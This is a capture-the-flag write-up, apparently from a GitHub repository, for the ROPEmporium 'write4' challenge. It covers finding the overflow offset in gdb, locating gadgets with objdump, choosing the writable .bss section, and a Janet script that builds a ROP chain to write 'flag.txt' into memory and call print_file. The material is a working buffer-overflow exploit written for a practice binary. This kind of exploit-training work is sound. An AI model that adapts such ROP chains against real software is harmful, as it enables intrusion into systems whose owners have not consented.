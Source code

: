 # write4 (ROPEmporium Challenge 4)

## Locate ret address position on stack

```
gdb ./write4
pattern create 200 pattern.txt
r < pattern.txt
# segfault occurs here
x/2wx $rsp
# 0x41304141
pattern offset 0x41304141
# ... found at offset: 40
```

## Analysis & Making a Plan

```sh
checksec --file=write4
checksec --file=libwrite4.so

rabin2 -z write4
readelf write4

objdump -d write4
objdump -d libwrite4.so
```

- main calls pwnme@plt
- buffer overflow, jump to gadget:
  ```
  400690:	41 5e                	pop    %r14
  400692:	41 5f                	pop    %r15
  400694:	c3                   	ret
  ```
- jump to gadget:
  ```
  400628:	4d 89 3e             	mov    %r15,(%r14)
  40062b:	c3                   	ret
  ```
- so r15 must contain the string "flag.txt" (8 bytes, just enough for us)
- r14 must contain an address that we can write to
- print_file@plt receives first argument (string) in rdi -> must contain address of "flag.txt"
  ```
  400693                 5f  pop rdi
  400694                 c3  ret
  ```
- finally, jump to print_file@plt

## Writeable?

```sh
readelf -a write4

# [23] .data             PROGBITS         0000000000601028  00001028
#      0000000000000010  0000000000000000  WA       0     0     8
# [24] .bss              NOBITS           0000000000601038  00001038
#      0000000000000008  0000000000000000  WA       0     0     1
```

`.bss` is a section for uninitialized data.
We can write our "flag.txt" string here `0x0000000000601038`.

## Exploit Script

```janet
#!/usr/bin/env janet
(use sh)
# (print `\x` (string/join (reverse (partition 2 "0000000000601038")) `\x`))
# \x38\x10\x60\x00\x00\x00\x00\x00

# (print `\x` (string/join (map (partial string/format "%x") (string/bytes "flag.txt")) `\x`))
# \x66\x6c\x61\x67\x2e\x74\x78\x74

(def input (string/join [(string/repeat 'A 40)
                         "\x90\x06\x40\x00\x00\x00\x00\x00" # pop %r14; pop %r15; ret gadget
                         "\x38\x10\x60\x00\x00\x00\x00\x00" # r14: address to store string into
                         "\x66\x6c\x61\x67\x2e\x74\x78\x74" # r15: "flag.txt"
                         "\x28\x06\x40\x00\x00\x00\x00\x00" # mov %r15,(%r14)
                         "\x93\x06\x40\x00\x00\x00\x00\x00" # pop %rdi; ret gadget
                         "\x38\x10\x60\x00\x00\x00\x00\x00" # rdi: address of string
                         "\x10\x05\x40\x00\x00\x00\x00\x00" # print_file@plt
                         ""]))
(spit "payload.txt" input)
($ ./write4 < ,input)
```
